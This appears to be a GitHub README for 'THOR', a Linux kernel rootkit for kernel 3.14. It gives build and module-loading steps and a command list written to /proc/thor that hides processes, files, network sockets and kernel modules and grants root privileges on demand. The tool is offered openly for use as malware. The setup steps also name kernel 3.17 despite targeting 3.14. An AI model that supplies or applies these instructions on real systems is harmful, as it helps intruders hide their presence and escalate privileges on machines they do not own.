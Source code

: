 # THOR

The Horrific Omnipotent Rootkit - or something like that, targeted at kernel
3.14 (archlinux LTS at the time of writing).

## Requirements

Apart from the linux kernel headers, the linux source code is required in order
to build this rootkit since unexported code is used.

Just make sure `/usr/src/linux` points to the linux source directory of the
target kernel. Or you could simply change the `Makefile`.

## How to Setup (Arch)

    # pacman -S abs linux-headers
    # abs
    # cd /var/abs/core/linux
    # makepkg -o --asroot
    # ln -s /var/abs/core/linux/src/linux-3.17 /usr/src/linux

## How to Build

    $ cd /path/to/thor
    $ make
    # insmod thor.ko

## How to Use

    usage:
       echo hp PID    > /proc/thor     (hides process PID)
       echo up PID    > /proc/thor     (unhides process PID)
       echo upa       > /proc/thor     (unhide all PIDs)
       echo hf FILE   > /proc/thor     (hide file FILE)
       echo uf FILE   > /proc/thor     (unhide file FILE)
       echo ufa       > /proc/thor     (unhide all files)
       echo ht4s PORT > /proc/thor     (hide tcp4 socket)
       echo ut4s PORT > /proc/thor     (unhide tcp4 socket)
       echo ut4a      > /proc/thor     (unhide all tcp4 sockets)
       echo ht6s PORT > /proc/thor     (hide tcp6 socket)
       echo ut6s PORT > /proc/thor     (unhide tcp6 socket)
       echo ut6a      > /proc/thor     (unhide all tcp6 sockets)
       echo hu4s PORT > /proc/thor     (hide udp4 socket)
       echo uu4s PORT > /proc/thor     (unhide udp4 socket)
       echo uu4a      > /proc/thor     (unhide all udp4 sockets)
       echo hu6s PORT > /proc/thor     (hide udp6 socket)
       echo uu6s PORT > /proc/thor     (unhide udp6 socket)
       echo uu6a      > /proc/thor     (unhide all udp6 sockets)
       echo hm MODULE > /proc/thor     (hide module)
       echo um MODULE > /proc/thor     (unhide module)
       echo uma       > /proc/thor     (unhide all modules)
       echo root      > /proc/thor     (gain root privileges)

## Acknowledgement

- [Arkadiusz "ivyl" Hiler](https://github.com/ivyl/rootkit)
- [Morgan "mrrrgn" Phillips](https://github.com/mrrrgn/simple-rootkit)
- [uzyszkodnik](https://github.com/uzyszkodnik/rootkit)
- [Michael "mncoppola" Coppola] (https://github.com/mncoppola/suterusu)
